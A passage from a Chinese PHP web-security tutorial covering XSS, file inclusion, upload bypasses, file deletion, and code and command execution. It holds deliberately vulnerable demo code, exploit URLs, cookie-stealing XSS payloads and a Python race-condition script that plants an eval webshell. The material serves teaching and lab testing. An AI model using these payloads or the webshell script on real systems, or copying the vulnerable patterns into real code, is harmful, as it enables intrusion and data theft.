```php
\\存储XSS演示
<form action="" method="post">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
$xss=@$_POST['xss'];
mysql_connect("localhost","root","root");
mysql_select_db("test");
if($xss!==null){
    $sql="insert into xss(id,payload) values(1,'$xss')";
    $result=mysql_query($sql);
    echo $result;
}
?>
```

storagexsshow.php(test on mysql 5.5.38)

```php
<?php
mysql_connect("localhost","root","root");
mysql_select_db("test");
$sql="select payload from xss";
$result=mysql_query($sql);
while($row=mysql_fetch_array($result)){
    echo $row['payload']; 
}
?>
```

storagexss.php post:`<img src=x onerror=alert(document.cookie)>`
访问storagexsshow.php会弹出cookie

恶意利用(以评论区存在存储型xss为例):假如某网站评论区存在xss存储行漏洞,攻击者在评论中插入获取cookie的代码,当每个用户看到此评论时,他们的cookie都会被发送到攻击者服务器。

#### DOM型

没有经过后端,只在前端触发。

数据流向是：URL-->浏览器 

eg:

domxss.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0); //禁用错误报告
$q = $_GET["q"];
?>
<form action="" method="get">
    <input type="text" name="q" id='text' value="<?php echo $q;?>" />
    <input type="submit" value="test"/>
</form>
<div id="print"></div>
<script type="text/javascript">
var text = document.getElementById("text"); 
var print = document.getElementById("print");
print.innerHTML = text.value + ' not found'; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
```

`http://127.0.0.1/domxss.php?q=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用和反射型xss类似

### 实例

以ESPCMS P8.18101601n 前台XSS为例，问题主要由于错误页面的报错信息未作过滤，造成XSS漏洞。

payload:`http://127.0.0.1/espcms/index.php?ac=%3C/code%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&at=List&tid=7`



### 防范

- 特殊字符HTML实体编码
- 标签黑白名单(推荐白名单,黑名单可能存在不可预测的绕过)
- 请求头设置HttpOnly属性(cookie不能通过js调用获取)



## 6. 文件操作漏洞

总的来说时因为没有经过严格的验证,操作的文件是否在允许的范围内。

危害:

- 导致恶意文件/代码包含
- 导致敏感文件被读取
- 导致文件被删除
- 导致恶意文件上传

### 分类

#### 文件包含

文件包含分为本地文件包含(local file include)、远程文件包含(remote file include)。文件包含可以导致恶意代码被包含,从而获取webshell

文件包含利用函数:

- include(即使文件被包含过,也会再次包含,包含文件遇到错误代码也会继续执行)
- include_once(文件被包含过了,就不会再次包含,包含文件遇到错误也会继续执行)
- require(即使文件被包含过,也会再次包含,包含文件遇到错误程序直接退出)
- require_once(文件被包含过了,就不会再次包含,包含文件遇到错误程序直接退出)
- ...

本地文件包含(LFI):

只能包含本机文件,大多出现在模块加载、模板加载和cache调用等地方。
本地文件包含方式也有多种,比如上传一个允许上传的文件格式的文件在包含,包含PHP上传的临时文件,webserver记录到日志后在包含webserver的日志,linux下可以包含/proc/self/environ文件等。

eg:
localfileinclude.php(test on php 5.5.38)

```php
<?php
define("ROOT",dirname(__FILE__).'/');
$mod = $_GET['mod'];
echo ROOT.$mod.'.php';
include(ROOT.$mod.'.php');
?>
```

lfishell.php

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/localfileinclude.php?mod=lfishell`

远程文件包含:

可以包含远程文件。需要设置allow_url_include=on。支持http、ftp、php伪协议、zip、file等协议。

eg:

remotefileinclude.php

```php
<?php
include($_GET['url']);
?>
```

使用python开启一个见到的服务器:
`python -m SimpleHTTPServer 8080`

rfi.txt

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/remotefileinclude.php?url=http://127.0.0.1:8080/Desktop/rfi.txt`

使用伪协议(举两个伪协议例子):

php://input

- allow_url_fopen：off/on
- allow_url_include：on
  `http://127.0.0.1/remotefileinclude.php?url=php://input`
  `post: <?php phpinfo();?>`

php://filter

- allow_url_fopen：off/on
- allow_url_include：off/on
  `http://127.0.0.1/remotefileinclude.php?url=php://filter/read=convert.base64-encode/resource=remotefileinclude.php`

截断包含:

00截断(受限于GPC和addslashes等函数影响,php5.3之后也不能使用这个方法,不过现在很少有这个漏洞了):

```php
<?php
include $_GET['a'].'.php';
?>
```

假如你发现了截断包含漏洞,然后又只能上传某些固定后缀的文件,那可以试下00截断

`http://127.0.0.1/truncatedinclude.php?a=aaa.txt%00`

多个`.`和`/`截断,不受GPC限制,但是在php5.3之后修复

#### 文件读取(下载)

程序在下载文件或者读取显示文件的时候,读取文件的参数直接在请求中传递,后台程序获取到这个文件后直接读取返回,问题在于这个参数是用户可控的,可以直接传入想要的文件路径。

文件读取或者下载函数:

- file_get_contents
- high_light
- fopen
- readfile
- fread
- ...

eg:



```php
<?php
$file = file_get_contents($_GET['file']);
echo $file;
?> 
```

`http://127.0.0.1/fileread.php?file=aaa.txt`

#### 文件上传漏洞

如果能把文件上传到管理员或者应用程序不想让你上传的目录,那么就存在文件上传漏洞。

一般的检测流程:

- 客户端javascript校验（一般只校验文件的扩展名）
- 服务端校验
  - 文件头content-type字段校验（image/gif）
  - 文件内容头校验（GIF89a）
  - 目录路经检测（检测跟Path参数相关的内容）
  - 文件扩展名检测 (检测跟文件 extension 相关的内容)
  - 后缀名黑名单校验
  - 后缀名白名单校验
  - 自定义正则校验
- WAF设备校验（根据不同的WAF产品而定）

利用函数:

- move_uploaded_file

##### 客户端校验

jsupload.php(test on php 5.5.38)

```php
<?php
//文件上传漏洞演示脚本之js验证
$uploaddir = 'uploads/';
if (isset($_POST['submit'])) {
    if (file_exists($uploaddir)) {
        if (move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . '/' . $_FILES['upfile']['name'])) {
            echo '文件上传成功，保存于：' . $uploaddir . $_FILES['upfile']['name'] . "\n";
        }
    } else {
        exit($uploaddir . '文件夹不存在,请手工创建！');
    }
    //print_r($_FILES);
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
    <title>文件上传漏洞演示脚本--JS验证实例</title>
    <script type="text/javascript">
        function checkFile() {
            var file = document.getElementsByName('upfile')[0].value;
            if (file == null || file == "") {
                alert("你还没有选择任何文件，不能上传!");
                return false;
            }
            //定义允许上传的文件类型
            var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
            //提取上传文件的类型
            var ext_name = file.substring(file.lastIndexOf("."));
            //alert(ext_name);
            //alert(ext_name + "|");
            //判断上传文件类型是否允许上传
            if (allow_ext.indexOf(ext_name + "|") == -1) {
                var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
                alert(errMsg);
                return false;
            }
        }
    </script>
<body>
<h3>文件上传漏洞演示脚本--JS验证实例</h3>


<form action="" method="post" enctype="multipart/form-data" name="upload" onsubmit="return checkFile()">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

`http://127.0.0.1/jsupload.php`

判断方式：
在浏览加载文件，但还未点击上传按钮时便弹出对话框，(进一步确定可以通过配置浏览器HTTP代理（没有流量经过代理就可以证明是客户端JavaScript检测））内容如：只允许传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

绕过方法：
将需要上传的恶意代码文件类型改为允许上传的类型，例如将shell.asp改为shell.jpg上传，配置Burp Suite代理进行抓包，然后再将文件名shell.jpg改为shell.asp
上传页面，审查元素，修改JavaScript检测函数（具体方法：可以使用firebug之类的插件把它禁掉）

##### 服务端检测

###### MIME类型检测

MIME的作用：使客户端软件，区分不同种类的数据，例如web浏览器就是通过MIME类型来判断文件是GIF图片，还是可打印的PostScript文件。web服务器使用MIME来说明发送数据的种类， web客户端使用MIME来说明希望接收到的数据种类。

eg:

```php
<?php
if($_FILES['file']['type'] != "image/jpg")
{
    echo "Sorry, we only allow uploading GIF images";
    exit;
}
$uploaddir = './uploads/';
$uploadfile = $uploaddir . basename($_FILES['file']['name']);
if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
{
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "File uploading failed.\n";
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

绕过方法:
配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型

###### 扩展名检测

黑名单检测:

```php
<?php
function getExt($filename){
    //sunstr - 返回字符串的子串
    //strripos — 计算指定字符串在目标字符串中最后一次出现的位置（不区分大小写）
    return substr($filename,strripos($filename,'.')+1);
}
if($_FILES["file"]["error"] > 0)
{
    echo "Error: " . $_FILES["file"]["error"] . "<br />";
}
else{
    $black_file = explode("|","php|jsp|asp");//允许上传的文件类型组
    $new_upload_file_ext = strtolower(getExt($_FILES["file"]["name"])); //取得被.隔开的最后字符串
    if(in_array($new_upload_file_ext,$black_file))
    {
        echo "文件不合法";
        die();
    }
    else{
        $filename = basename($_FILES['file']['name']).".".$new_upload_file_ext;
        if(move_uploaded_file($_FILES['file']['tmp_name'],"uploads/".$filename))
        {
            echo "Upload Success";
        }
    }
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

apache服务器可能做了配置不会解析特殊扩展名
使用其他服务器复现(我使用的nginx),上传php4扩展名绕过黑名单
`http://127.0.0.1/uploads/shell.php4`

白名单检测:
仅允许指定的文件类型上传，比如仅与需上传jpg | gif | doc等类型的文件，其他全部禁止

绕过方法：

- 文件名大小写绕过
  - 用像 AsP，pHp 之类的文件名绕过黑名单检测
- 名单列表绕过
  - 用黑名单里没有的名单进行攻击，比如黑名单里没有 asa 或 cer 之类
- 特殊文件名绕过
  - 比如发送的 http 包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式 在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改，然后绕过验证后，会被windows 系统自动去掉后面的点和空格，但要注意 Unix/Linux 系统没有这个特性
- 0x00截断
  - 文件名后缀就一个%00字节，可以截断某些函数对文件名的判断。在许多语言函数中处理函数中，处理字符串中(php版本需要小于5.3.4,magic_quotes_gpc=Off)

###### 文件内容检测

文件头检测:

- JPG: FF D8 FF E0 00 10 4A 46 49 46
- GIF: 47 49 46 38 39 61 (GIF89a)
- PNG: 89 50 4E 47
  绕过方法:
  添加头对应的文件头伪造

文件相关信息检测:

- 检查图片大小、尺寸等的信息。
  绕过方法:
  将代码注入到正常文件中(比如图片马:copy /b 1.jpg+2.php)

###### 竞争上传

当文件上传到服务器,先暂时保存,在检查是不是符合条件,如果不符合再删掉。
利用思路就是我们用多线程不断上传.php文件,在某个没有被删除的时刻如果访问到了.php文件,就生成一个shell,shell就会存到服务器。

eg:

competionupload.php(test on php 5.5.38)

```php
<?php
if ($_POST['submit']){
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";
    $filename = $_FILES['file']['name'];
    if(is_uploaded_file($_FILES['file']['tmp_name'])){
        if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
            die("error:can not move");
        }
    }else{
        die("error:not an upload file！");
    }
    $newfile = $path.$filename;
    echo "file upload success.file path is: ".$newfile."\n<br />";
    if($_FILES['file']['error']>0){
        unlink($newfile);
        die("Upload file error: ");
    }
    $ext = array_pop(explode(".",$_FILES['file']['name']));
    if(!in_array($ext,$allowtype)){
        unlink($newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
}
?>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="file"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

exp.py

```python
import os
import requests
import threading
import random
import string

exp_name = ''.join(random.sample(string.ascii_letters + string.digits,10))
shell_name = ''.join(random.sample(string.ascii_letters + string.digits,10))

# 按照自己的环境修改url
upload_url = 'http://127.0.0.1/competionupload.php'
exp_url = 'http://127.0.0.1/uploads/{}.php'.format(exp_name)
shell_url = 'http://127.0.0.1/uploads/{}.php'.format(shell_name)

exp_content = ('<?php fputs(fopen("{}.php", "w"), '
               '\'<?php @eval($_POST["qqq"]) ?>\'); ?>')
exp_content = exp_content.format(shell_name)

def upload():
    while True:
        print('[+] upload file...')
        data = {'submit':'上传'}
        files = {"file":('{}.php'.format(exp_name),exp_content)}
        resp = requests.post(upload_url,files=files,data=data)

def get():
    while True:
        print('[+] get shell file...')
        requests.get(exp_url)
        resp = requests.get(shell_url)
        if resp.status_code == 200:
            print('[*] create {}.php success'.format(shell_name))
            os._exit(0)

def main():
    threads = []

    try:
        # 线程数也可以自己修改,我这里只是开太多线程本地服务器扛不住
        for i in range(3):
            t = threading.Thread(target=get,args=())
            threads.append(t)
            t.start()

        for i in range(5):
            t = threading.Thread(target=upload,args=())
            threads.append(t)
            t.start()        

        for thread in threads:
            thread.join()
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

可以参考[上面讲了19种情景的bypass方法](http://www.lmxspace.com/2018/06/12/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Ewriteup/)

#### 文件删除

文件删除漏洞出现在有文件管理功能的应用上很多,这些应用一般都有文件上传和读取等功能。漏洞利用原理和文件读取差不多,只是利用函数不一样。一般是因为删除文件的文件名可以用../跳转,或者没有限制当前用户只能删除他该有权限删除的文件。php中这个漏洞函数通常是unlink()

eg:

```php
<?php
$basedir = './uploads/';
if(isset($_GET['action']) && $_GET['action'] == 'delete'){
    $filename = isset($_GET['filename'])?$_GET['filename']:'';
    if($filename){
        unlink($basedir.$filename);
    }
}
?>
```

`http://127.0.0.1/filedelete.php?action=delete&filename=../../../../../../../test.txt`

### 例子



### 防范

通用防范:

- 对权限管理要合理,比如用户A上传的文件,不能被同权限的B用户删除。特殊文件操作需要特权用户才能操作,比如后台删除文件的操作,肯定需要限制管理员才能操作。
- 有的文件操作不需要直接传入文件名,比如下载文件时,可以将文件名、路径、ID(MD5形式)及文件上传用户存入数据库中,操作时根据文件ID和当前用户名去判断当前用户有没有权限操作改文件。
- 避免目录跳转。禁止`..`、`/`、`\`来跳转目录

## 7. 代码执行

代码执行漏洞指应用程序本身过滤不严,用户可以通过请求将代码注入到应用中执行。这种漏洞如果没有进行特殊过滤,相当于一个web后门的存在。

php中导致该漏洞的函数:

- eval
- assert
- preg_replace
- call_user_func
- call_user_func_array
- array_map
- php动态函数($a($b))
- ...

eval()和assert()函数导致的代码执行漏洞大多数是因为载入缓存或者模板以及对变量的处理不严格导致,比如直接把一个外部可控的参数拼接到模板里面，然后调用这两个函数去当成php代码执行。

eg:

```php
<?php
function action_a(){
    echo 'call action_a method';
}
function action_b(){
    echo 'call action_b method';
}
$a = $_GET['m'];
eval('action_'.$a.'();');
?>
```

`http://127.0.0.1/codexec_eval.php?m=b`

`http://127.0.0.1/codexec_eval.php?m=b();phpinfo();//`



preg_replace()函数(__php5.5之前可用__)导致代码执行需要存在`/e`参数，这个函数原本是用来处理字符串的，因此漏洞出现最多的是在对字符串的处理，比如URL、HTML标签及文章内容过滤等地方。

eg:

```php
<?php
$html_body = '<a {${phpinfo()}}></a>';
var_dump(preg_replace("#(</?)(\w+)([^>]*>)#e",
              '"\\1".strtoupper("\\2")."\\3"',$html_body));
?>
```

`http://127.0.0.1/codexec_preg.php`



由于php特性的原因，php函数可以直接由字符串拼接，导致动态执行函数。

eg:

```php
<?php
$_GET['a']($_GET['b']);
?>
```

`http://127.0.0.1/codexec_dynfunc.php?a=assert&b=phpinfo()`

还有其他函数，可以自行查阅



### 例子



### 防范



实际环境中可以结合正则表达式使用白名单对参数过滤



## 8. 命令执行



代码执行是指可以执行代码，命令执行是可以执行系统命令(比如CMD或者BASH命令)。php命令执行是继承webserver用户权限。

php命令执行函数:

- system
- exec
- shell_exec
- passthru
- pcntl_exec
- popen
- proc_popen
- \`



eg:

```php
<?php
system('whoami');
popen('whoami >> ./aaa.txt','r');
echo `whoami`;
?>
```



### 例子



### 防范



- 使用escapeshellcmd、escapeshellarg防止命令注入
- 参数白名单
